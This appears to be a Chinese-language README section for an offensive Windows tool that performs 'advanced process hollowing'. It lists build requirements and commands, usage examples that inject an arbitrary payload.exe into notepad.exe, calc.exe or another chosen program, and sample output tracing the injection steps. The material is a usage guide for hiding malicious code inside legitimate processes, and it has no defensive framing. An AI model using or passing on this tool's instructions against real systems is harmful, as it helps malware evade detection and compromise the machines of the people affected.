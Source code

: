 ## 构建和使用

### 前置要求

- **编译器**: GCC (MinGW-w64)
- **架构**: x64
- **系统**: Windows 7+
- **权限**: 管理员权限（用于进程操作）

### 构建步骤

```bash
# Windows
build.bat

# Linux/macOS (需要 MinGW 交叉编译)
bash build.sh
```

### 使用方法

```bash
cd build

# 基本用法
advanced_hollowing.exe <target.exe> <payload.exe>

# 示例 1: 劫持 notepad.exe
advanced_hollowing.exe "C:\Windows\System32\notepad.exe" payload.exe

# 示例 2: 劫持 calc.exe
advanced_hollowing.exe "C:\Windows\System32\calc.exe" payload.exe

# 示例 3: 使用自定义目标
advanced_hollowing.exe "C:\Program Files\SomeApp\app.exe" payload.exe
```

**参数说明**:
- `<target.exe>`: 合法进程路径（将被镂空的"宿主"）
- `<payload.exe>`: 你的 PE 可执行文件（实际执行的代码）

### 输出示例

```
===================================================================
Advanced Process Hollowing (No NtUnmapViewOfSection)
===================================================================

[*] Target: C:\Windows\System32\notepad.exe
[*] Payload: payload.exe

[*] Step 1: Reading payload PE file...
[+] Payload loaded: 3072 bytes

[*] Step 2: Parsing PE headers...
[+] Preferred ImageBase: 0x0000000140000000
[+] Image Size: 0x3000
[+] Entry Point RVA: 0x1000

[*] Step 3: Creating suspended target process...
[+] Process created (PID: 12345)

[*] Step 4: Retrieving PEB address...
[+] PEB Address: 0x00000012345678AB

```